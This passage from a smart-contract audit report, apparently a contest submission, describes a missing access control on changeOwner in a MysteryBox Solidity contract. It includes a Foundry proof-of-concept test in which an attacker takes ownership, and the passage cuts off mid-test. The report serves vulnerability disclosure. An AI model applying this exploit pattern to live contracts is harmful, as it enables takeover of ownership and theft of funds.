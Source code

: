 ## Recommendations

* Implement Reentrancy Guard: Utilize ReentrancyGuard from OpenZeppelin to protect functions susceptible to reentrancy.
* Follow Checks-Effects-Interactions Pattern: Ensure state changes are made before performing any external calls..

## <a id='H-03'></a>H-03. Unauthorized Ownership Change and Fund Withdrawal Exploit in MysteryBox.sol             

## Proof of Finding
https://codehawks.cyfrin.io/c/2024-09-mystery-box/s/345
<img width="1036" alt="image" src="https://github.com/user-attachments/assets/33e6dcd8-222b-47a3-ab30-0cc7172cf196" />


## Summary

The MysteryBox contract contains a critical access control vulnerability allowing unauthorized users to change the contract's ownership and withdraw all its funds. This vulnerability poses a significant threat to the integrity and security of the contract.

## Vulnerability Details

The `changeOwner` changeOwner `MysteryBox` contract does not have any access control mechanism, enabling any address to change the owner of the contract. Without the `onlyOwner` modifier, unauthorized users can gain control over the contract and perform sensitive functions such as withdrawing funds.

## POC

* Copy this code in a test folder: MysteryBox/test/ChangeOwnerTest.t.sol

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/MysteryBox.sol";

contract MysteryBoxExploitTest is Test {
    MysteryBox mysteryBox;
    address public owner;
    address public attacker;

    function setUp() public {
        owner = address(this); // Set the test contract as the owner
        attacker = address(1); // Set an attacker address

        console.log("Deploying MysteryBox contract");
        // Deploy the MysteryBox contract with the required initial ETH
        mysteryBox = new MysteryBox{value: 0.1 ether}();
    }

    function testExploitChangeOwner() public {
        console.log("Initial owner of the contract:", mysteryBox.owner());

        // Attacker attempting to change ownership
        vm.startPrank(attacker);
        mysteryBox.changeOwner(attacker);
        vm.stopPrank();
```